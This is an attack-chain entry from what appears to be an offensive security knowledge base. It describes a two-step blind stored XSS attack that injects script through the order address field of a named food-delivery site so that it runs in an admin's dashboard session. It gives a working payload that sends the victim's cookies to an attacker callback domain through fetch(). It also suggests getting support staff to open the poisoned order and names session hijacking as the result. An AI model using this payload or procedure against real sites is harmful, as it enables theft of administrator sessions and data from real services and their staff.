

---
tags:
  - xss
  - stored-xss
  - blind-xss
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/XSS-Hunter]]'
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inject-Blind-Stored-XSS-into-Order-Address]]'
  - '[[procedures/Trigger-XSS-in-Admin-Dashboard]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:30:34.904Z'
description: >-
  A multi-stage attack exploiting a blind stored XSS vulnerability in the order
  placement form to inject and execute JavaScript in an authenticated admin
  session via the dashboard.
skill_level: intermediate
impact_level: high
id: 2280a2b1-3204-46fb-9fe3-f1311db8f850
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
---
id: blind-stored-xss-zomato
name: Blind Stored XSS in Order Address Field Leading to Admin JavaScript Execution
type: attack_chain
description: A multi-stage attack exploiting a blind stored XSS vulnerability in the order placement form to inject and execute JavaScript in an authenticated admin session via the dashboard.
verified: false
submitted: false
step_count: 2
created_at: 2023-10-01T00:00:00Z
updated_at: 2023-10-01T00:00:00Z
procedures: [[procedures/Inject-Blind-Stored-XSS-into-Order-Address]], [[procedures/Trigger-XSS-in-Admin-Dashboard]]
techniques: [[JavaScript]]
tactics: [[Execution]]
tags: xss, stored-xss, blind-xss, web-vulnerability
platforms: Web
tools: [[tools/XSS-Hunter]]
---

# Blind Stored XSS in Order Address Field Leading to Admin JavaScript Execution

Multi-stage attack chain demonstrating a complete attack workflow exploiting insufficient input sanitization in a web application's order form to achieve arbitrary JavaScript execution in an admin context.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/XSS-Hunter]]

### Target Environment

- Web application with user-facing forms (e.g., e-commerce order placement)
- Access to place orders as a legitimate user
- Admin dashboard that displays user-submitted data without sanitization

### Initial Access Requirements

- Valid user account on the target platform
- No special credentials needed beyond user registration
- Network access to the public-facing website

## Detailed Attack Procedures

### Step 1: Payload Injection
procedure: [[procedures/Inject-Blind-Stored-XSS-into-Order-Address]]

**Objective**: Inject a malicious JavaScript payload into the address field during order placement, which gets stored in the backend database without sanitization.

**Instructions**: Register or log in as a user on the target website (e.g., Zomato). Navigate to the order placement form and append the XSS payload to the address field. Use [[tools/XSS-Hunter]] to generate a unique callback URL for blind detection.

Example payload injection in the address field:

```
Legitimate Address"><script>fetch('https://your-xss-hunter-domain.com/report?cookie='+document.cookie);</script>
```

Complete the order placement to submit the payload.

**Expected Output**: Order placed successfully; payload stored in backend (no immediate feedback due to blind nature).

**Success Indicators**:
- Order confirmation received
- No errors during form submission

### Step 2: Payload Triggering
procedure: [[procedures/Trigger-XSS-in-Admin-Dashboard]]

**Objective**: Wait for or induce an admin/support agent to view the order details, causing the stored payload to execute in their authenticated browser session.

**Instructions**: After submission, monitor the [[tools/XSS-Hunter]] dashboard for callbacks. The payload will execute when an admin accesses the order in their dashboard, sending data (e.g., cookies) to your callback endpoint.

No direct action needed beyond monitoring; in a real scenario, contact support to view the order if possible.

**Expected Output**: Callback received on XSS Hunter with admin session data (e.g., cookies, DOM details).

**Success Indicators**:
- XSS Hunter reports execution with admin context details
- Potential for further exploitation like session hijacking

## Attack Chain Summary

### Key Achievements

1. Successful injection of blind stored XSS payload into a persistent field
2. Execution in high-privilege admin context without user interaction beyond initial submission
3. Potential for data exfiltration or session takeover from admin session

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
